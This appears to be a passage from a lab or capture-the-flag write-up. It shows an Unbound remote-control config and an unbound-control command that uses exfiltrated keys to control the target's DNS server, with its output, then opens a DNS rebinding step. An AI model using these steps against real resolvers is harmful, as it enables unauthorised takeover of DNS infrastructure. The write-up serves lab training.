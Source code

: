  
  
\-------------------------------------------------------------  
  
remote-control:  
  
 control-enable: yes  
  
 control-interface: 0.0.0.0  
  
 control-use-cert: yes  
  
 server-key-file: "/etc/unbound/unbound\_server.key"  
  
 server-cert-file: "/etc/unbound/unbound\_server.pem"  
  
 control-key-file: "/etc/unbound/unbound\_control.key"  
  
 control-cert-file: "/etc/unbound/unbound\_control.pem"  
  
 server-key-file: "/etc/unbound/unbound\_server.key"  
  
\--------------------------------------------------------------  
  
  
  
  
  
Run this control command:  
  
  
  
unbound-control -c path where put unbound.conf before exfiltrated /my\_unbound.conf -s 10.10.10.232@8953 status  
  
  
  
version: 1.11.0  
  
verbosity: 1  
  
threads: 1  
  
modules: 2 \[ validator iterator \]  
  
uptime: 46 seconds  
  
options: control(ssl)  
  
unbound (pid 9554) is running...  
  
  
  
  
  
\------------------------------------------------------------------------------------------------  
  
  
  
  
  
  
  
7) -- Part DNS Rebinding --  
  
  
  
\## there is a misconfig in the conf file as there is a wildcard before the domain name and we can use this to our advantage ##  
  
  
  